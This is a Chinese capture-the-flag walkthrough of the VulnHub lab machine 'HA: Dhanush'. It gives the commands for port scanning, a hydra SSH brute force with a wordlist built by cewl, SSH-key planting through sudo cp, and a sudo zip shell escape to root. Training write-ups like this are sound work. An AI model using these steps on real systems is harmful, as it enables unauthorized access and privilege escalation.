 # HA: Dhanush

## 环境

虚拟机平台：VMware Workstation Pro

攻击机：Kali（IP：192.168.253.136）

靶机：Dhanush（IP：192.168.253.141）

下载：https://www.vulnhub.com/entry/ha-dhanush,396/

## Let's go

```
nmap -A -p- 192.168.253.141
```

![](../img/HA Dhanush-01.png)

> **对网页进行浏览,然而并没有发现任何信息,我们进行枚举**

```
dirb http://192.168.253.141/
```

![](./img/HA Dhanush-02.png)

> **然而并没有发现什么有用的信息,因此怀疑是不是跟SSH有关**

```
cewl http://192.168.253.141/ -w 1.txt		# 爬取网站生成字典
hydra -L 1.txt -P 1.txt  -vV -e ns 192.168.253.141 ssh -s 65345
```

![](./img/HA Dhanush-03.png)

```
# username:pinak,password:Gandiv
ssh pinak@192.168.253.141 -p 65345
sudo -l
```

![](./img/HA Dhanush-04.png)

> **我们需要想办法切换到sarang用户,因此可以使用cp命令将SSH密钥复制到他的.ssh目录中**

```
ssh-keygen
cd .ssh/
chmod 777 id_rsa.pub
```

![](./img/HA Dhanush-05.png)

```
cp id_rsa.pub ../
cd ../
sudo -u sarang /bin/cp ./id_rsa.pub /home/sarang/.ssh/authorized_keys
ssh sarang@127.0.0.1 -p 65345
```

![](./img/HA Dhanush-06.png)

>**切换到sarang用户,发现root权限的zip命令**

![](./img/HA Dhanush-07.png)

```
touch get
sudo zip /tmp/get.zip /home/sarang/get -T --unzip-command="sh -c /bin/bash"
cd /root
cat flag.txt
```

![](./img/HA Dhanush-08.png)